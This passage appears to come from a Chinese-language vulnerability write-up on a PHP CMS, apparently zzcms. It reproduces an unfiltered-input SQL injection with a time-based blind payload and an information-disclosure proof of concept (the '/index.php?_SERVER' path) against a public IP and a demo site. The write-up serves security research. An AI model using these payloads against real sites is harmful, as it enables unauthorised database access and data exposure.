 跟进这个fetch\_array函数，发现未对输入的参数进行过滤，导致可以产生sql注入。

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678368983122-8d0aabf4-b7fa-4731-8273-803a225254a5.png)

### 漏洞复现：

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678349063104-38a8ee20-ff39-4974-bcab-476c1efea0a0.png)

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678348913817-d0c072f9-e33d-4119-9df2-72a41650c476.png)

keyword=1' AND (SELECT 3526 FROM (SELECT(SLEEP(5)))qvLz)-- Iojq&amp;Submit=%E6%9F%A5%E6%89%BE

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678348892374-8f9092c9-3814-4ffb-8f66-bb6951f0b0ab.png)

8.敏感信息泄露
--------

### 漏洞复现：

漏洞地址1：  
[http://119.28.176.129/index.php?\_SERVER](http://119.28.176.129/index.php?_SERVER)  
poc：/index.php?\_SERVER  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678350207656-1afbab16-b60b-4525-8671-5b7cf6a80e5a.png)  
漏洞地址2：  
[http://demo.zzcms.net/index.php?\\\_SERVER](http://demo.zzcms.net/index.php?%5C_SERVER)  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678350314700-bf818f43-0f0d-4157-9787-4f610dd1f835.png)  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678350293807-b3927966-4de1-4c23-80fa-b90e2a827612.png)  
127.0.0.1/admin/index php?\_ Server  
poc：/admin/index php?\_ Server  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678350483750-d90bce1c-550a-4722-b2fc-0876040ef676.png)  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1678350679817-fcab184e-376d-4aa8-ba63-506a660fa7ba.png)

REF：  
<https://xz.aliyun.com/t/10090>  
<https://wx.zsxq.com/dweb2/index/footprint/88455551854122>  
[https://blog.csdn.net/qq\_53123067/article/details/126805823](https://blog.csdn.net/qq_53123067/article/details/126805823)